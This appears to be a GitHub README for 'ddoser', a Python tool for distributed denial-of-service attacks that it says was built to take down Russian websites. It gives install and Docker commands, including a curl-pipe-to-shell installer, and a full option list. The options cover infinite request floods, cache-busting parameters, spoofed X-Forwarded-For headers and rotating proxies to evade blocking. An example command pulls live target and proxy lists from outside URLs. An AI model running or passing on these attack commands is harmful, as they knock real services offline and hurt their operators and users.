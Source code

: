 # The you seddoser
Small application for ddos attack, was developed special for kill russian's resources :)
# Contacts
If you have a questions or any proposal/bug thern pls contact us [ddoser telegram group](https://t.me/+eodJuvlTiK9hYWYy)
## Docker run (easy way)
Install docker https://docs.docker.com/engine/install/
```shell
# with default urls and proxies
docker run --pull always --ulimit nofile=100000:100000 -it imsamurai/ddoser
# with custom params
docker run --pull always --ulimit nofile=100000:100000 -it imsamurai/ddoser --target-urls-file sime.txt ... (check usage section)
# help
docker run --pull always --ulimit nofile=100000:100000 -it imsamurai/ddoser --help
```
Each run will update ddoser inside.
## Install
### Linux
```shell
sudo apt install python3
sudo apt install python3-pip
git clone https://github.com/taransergey/ddoser.git
cd ddoser/
pip install -r requirements.txt
```
### MacOs
Download and install python3.7-3.9 form here https://www.python.org/downloads/macos/ if you don't have it
or install by brew
```shell
brew install python@3.9
brew link python@3.9
```
### Common for any system
```shell
git clone https://github.com/taransergey/ddoser.git
cd ddoser/
pip install -r requirements.txt
```
### install by helper script
Also you can install in Linux by command:
```shell
curl https://raw.githubusercontent.com/taransergey/ddoser/main/ddoser_install.sh | sh
```

## Run
```shell
Usage: ddoser.py [OPTIONS]

  Run ddoser

Options:
  --target-url TEXT            ddos target url
  --target-urls-file TEXT      path or url to file contains urls to ddos
  --proxy-url TEXT             url to proxy resourse
  --proxy-file TEXT            path to file with proxy list
  --concurrency INTEGER        concurrency level
  --count INTEGER              requests count (0 for infinite)
  --timeout INTEGER            requests timeout
  -v, --verbose                Show verbose log
  --ignore-response            do not wait for response body
  --with-random-get-param      add random get argument to prevent cache usage
  --user-agent TEXT            custom user agent
  --log-to-stdout              log to console
  --restart-period INTEGER     period in seconds to restart application (reload proxies ans targets)
  --random-xff-ip              set random ip address value for X-Forwarder-For header
  --custom-headers TEXT        set custom headers as json
  --stop-attack INTEGER        stop the attack when the target is down after N tries
  --shuffle-proxy              Shuffle proxy list on application start
  -H, --header <TEXT TEXT>...  custom header
  --proxy-custom-format TEXT   custom proxy format like "{protocol}://{ip}:{port} {login}:{password}"
                               (ip and port is required, protocol can be set by --protocol)
  --help                       Show this message and exit.
```
proxy-file or proxy-url should contain proxy list in format like:
```text
ip1:port1#sock5
ip2:port2#sock4
ip3:port3#sock4 login:password
ip4:port4#http login:password
ip5:port5#http login:password
ip6:port6#https login:password
...
ipN:portN#sock4
```
### Example cmd
```shell
python3 ./ddoser.py --concurrency 150 --timeout 60 --with-random-get-param --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36" --count 0 --log-to-stdout --target-urls-file https://raw.githubusercontent.com/maxindahouze/reactor/main/targets3.txt --proxy-url 'http://143.244.166.15/proxy.list' --restart-period 600 --random-xff-ip
```
## Notes
**ddoser** supports SOCKS4/5 and HTTP(s) proxies with or without authorization, also can start it directly without proxy

Use **--restart-period** parameter to periodically reloading targets and proxies list   

If you see an error `too many open files` then you can decrease concurrency/targets count but first of all
try to increase the limits:
### Linux/MacOS:
```shell
ulimit -n 100000
```
### WSL:
```shell
mylimit=100000
sudo prlimit --nofile=$mylimit --pid $$; ulimit -n $mylimit
```
